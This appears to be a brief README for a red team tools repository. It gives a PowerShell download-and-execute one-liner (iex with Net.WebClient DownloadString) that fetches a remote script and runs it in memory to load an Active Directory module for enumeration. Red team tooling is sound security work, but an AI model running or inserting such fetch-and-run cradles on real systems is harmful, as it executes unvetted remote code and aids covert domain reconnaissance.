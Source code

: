 # RedTeamStuffs
A collection of Red Team tools and stuff that have come in handy

# Native AD Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RCStep/RedTeamStuffs/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

PS> Get-Command -Module *ActiveDirectory*

From: https://github.com/samratashok/ADModule/tree/master
